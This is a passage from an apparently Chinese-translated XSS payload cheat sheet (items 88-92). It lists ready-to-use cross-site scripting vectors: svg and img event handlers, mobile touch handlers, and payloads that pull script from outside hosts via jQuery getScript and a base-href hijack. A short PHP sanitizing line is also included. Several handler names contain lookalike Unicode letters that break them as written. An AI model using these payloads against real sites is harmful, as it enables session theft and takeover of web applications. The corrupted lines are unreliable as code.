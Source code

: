 ```
以下payload在输入必须具有固定长度时使用 

MD5    12345678901 <svg/οnlοad=alert(1)>
SHA1   1234567890123456789 <svg/οnlοad=alert(1)>
SHA256 1234567890123456789012345678901234567890123 <svg/οnlοad=alert(1)>
```

##### 88.PHP Sanitizing for XSS (PHP xss过滤)

```
以下代码只用于阻止每个上下文中的xss，只要输入不返回在非分隔字符串、反勾号中间或任何其他类似于eval的函数（JS上下文中的所有函数）中。但是它不防止基于DOM的XSS，只防止基于源代码的XSS。

$input = preg_replace("/:|\\\/", "", htmlentities($input, ENT_QUOTES))
```

##### 89.JavaScript Execution Delay (javascript执行延迟)

```
以下payload基于JQuery的外部调用为例,当javascript库或任何其他需要注入的资源,在payload的执行中未完全加载时使用。 

οnlοad=function(){$.getScript('//brutelogic.com.br/2.js')}
οnlοad=x=>$.getScript('//brutelogic.com.br/2.js')
```

##### 90.Image Vectors - Alternative Event Handlers (图像向量-可选事件处理程序)

```
以下payload用于触发事件处理程序,不同于onerror事件。 

<img
<image
src=data:image/gif;base64,R0lGODlhAQABAAD/ACwAAAAAAQABAAACADs=
srcset=data:image/gif;base64,R0lGODlhAQABAAD/ACwAAAAAAQABAAACADs=
οnlοad=alert(1)>
onloadend=alert(1)>
οnlοadstart=alert(1)>

```

##### 91.Shortest XSS (最短XSS)

```
当有一个有限xss漏洞利用点时。需要一个javascript脚本调用，通过相对路径放在xss需要加载的位置之后。攻击者服务器必须使用攻击脚本对本机脚本（相同路径）或默认404页（更容易）内完成的确切请求进行响应。域名越短越好。 

<base href=//knoxss.me>
```

##### 92.Mobile-only Event Handlers (仅处理移动端应用)

```
以下payload,针对移动应用程序时使用。

<html ontouchstart=alert(1)>
<html ontouchend=alert(1)>
<html ontouchmove=alert(1)>
<body onorientatiοnchange=alert(1)>
```
